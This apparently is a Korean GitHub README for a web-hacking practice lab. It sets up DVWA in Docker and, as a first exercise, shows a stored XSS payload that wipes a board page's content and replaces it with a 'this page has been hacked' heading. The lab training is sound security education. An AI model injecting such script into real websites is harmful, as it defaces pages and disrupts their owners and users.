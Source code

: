 # 🧪 Training

## 🧱 DVWA (Damn Vulnerable Web Application)

- 트레이닝 환경은 DVWA 환경을 구축하여 진행했습니다.
- **DVWA**는 웹 애플리케이션의 취약점(예: HTML Injection, SQL Injection, XSS 등)을 실습할 수 있도록 설계된 **취약한 웹 애플리케이션 플랫폼**입니다.
- 보안 교육, 모의 해킹 실습, 취약점 분석 훈련 등에 널리 활용됩니다.

---

## 🐳 DVWA Docker 환경 구축

아래 명령어를 사용하여 **Docker**로 DVWA를 손쉽게 실행할 수 있습니다.
```
# 버프수트에서 8080 포트를 사용하고 있어서 8081로 설정함.
# 8080 포트 사용 시 인터셉트가 걸리지 않을 수 있음.
docker run -d -p 8081:80 --name dvwa vulnerables/web-dvwa 

# 종료
docker stop dvwa
```
- `-d`: 백그라운드 모드로 실행  
- `-p 8081:80`: 호스트의 포트 8081을 컨테이너의 포트 80에 매핑  
- `--name dvwa`: 컨테이너 이름을 `dvwa`로 지정  
- `vulnerables/web-dvwa`: DVWA 공식 Docker 이미지

> ✅ 실행 후 브라우저에서 `http://localhost:8081` 접속

---

<img width="1917" height="943" alt="image" src="https://github.com/user-attachments/assets/204c9320-f501-41ee-ab1b-eeaf48642727" />

## 본격 트레이닝

### CASE 1.

#### 게시판 목록 화면에서 스크립트 삽입을 통해 HTML 조작하여 게시판 마비

##### 삽입 스크립트

```
<script>
  document.getElementById('main_body').innerHTML = '';
  var h1Tag = document.createElement('h1');
  h1Tag.innerText = '이 페이지는 해킹 당했습니다.';
  document.getElementById('main_body').append(h1Tag);
</script>
```

<img width="892" height="859" alt="image" src="https://github.com/user-attachments/assets/76036b7d-69d7-4be8-ab17-f971eb6bf7ec" />

##### 등록

<img width="894" height="860" alt="image" src="https://github.com/user-attachments/assets/3602f5c8-42cc-481a-b1a7-7bfaf288a159" />
